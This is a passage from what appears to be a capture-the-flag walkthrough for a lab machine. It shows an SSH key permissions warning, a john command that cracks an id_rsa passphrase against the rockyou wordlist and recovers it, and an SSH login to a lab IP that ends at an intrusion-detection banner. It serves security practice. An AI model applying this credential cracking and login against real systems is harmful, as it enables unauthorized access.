 ```bash
@         WARNING: UNPROTECTED PRIVATE KEY FILE!          @
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
Permissions 0644 for 'id_rsa' are too open.
It is required that your private key files are NOT accessible by others.
This private key will be ignored.
```

## Crack `id_rsa` using `john` after `ssh2john`
```bash
john --format=SSH hash.txt /usr/share/wordlists/rockyou.txt 

bluelove         (id_rsa)

```

## Login SSH using john

```
james@10.10.255.196's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-111-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


51 packages can be updated.
0 updates are security updates.


Last login: Thu Jul 23 20:40:09 2020 from 192.168.1.5
                                                                               
Broadcast message from root@mnemonic (somewhere) (Wed Mar 24 02:03:55 2021):   
                                                                               
     IPS/IDS SYSTEM ON !!!!                                                    
 **     *     ****  **                                                         
         * **      *  * *                                                      
*   ****                 **                                                    
 *                                                                             
    * *            *                                                           
       *                  *                                                    
         *               *                                                     
        *   *       **                                                         
* *        *            *                                                      
              ****    *                                                        
     *        ****                                                             
                                                                               
 Unauthorized access was detected. 
 ```
 